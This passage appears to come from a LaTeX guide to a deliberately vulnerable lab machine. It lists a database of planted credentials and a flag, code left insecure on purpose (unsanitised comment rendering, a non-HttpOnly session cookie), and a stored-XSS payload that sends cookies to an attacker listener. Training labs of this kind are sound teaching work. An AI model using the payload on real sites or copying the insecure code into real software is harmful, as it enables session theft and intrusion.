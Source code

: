 \begin{lstlisting}
cd /opt/synapse
docker compose up -d
docker compose ps
\end{lstlisting}

\subsection{Database schema (SQLite)}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Table & Contents \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
users & Login credentials (admin, guest) --- passwords MD5 \\
reports & Intelligence reports (5 dummy rows) \\
comments & User-submitted comments --- \textbf{XSS sink} \\
admin\_users & Lateral movement creds (monitor / M0nit0r2024) + flag \\
\end{longtable}}

\subsection{\texorpdfstring{Vulnerability 1 --- Stored XSS ({\ttfamily /comments})}{Vulnerability 1 --- Stored XSS (/comments)}}

Comments are rendered without sanitisation:

\begin{lstlisting}
<div class="body">}</div>
\end{lstlisting}

The session cookie has \texttt{HttpOnly=False}:

\begin{lstlisting}
resp.set_cookie('session',
    f"::",
    httponly=False)
\end{lstlisting}

\textbf{Exploit} --- post this comment to steal the victim bot's cookie:

\begin{lstlisting}
<script>
fetch('http://10.0.40.x:8000/?c=' + encodeURIComponent(document.cookie));
</script>
\end{lstlisting}

Start listener on Parrot first:


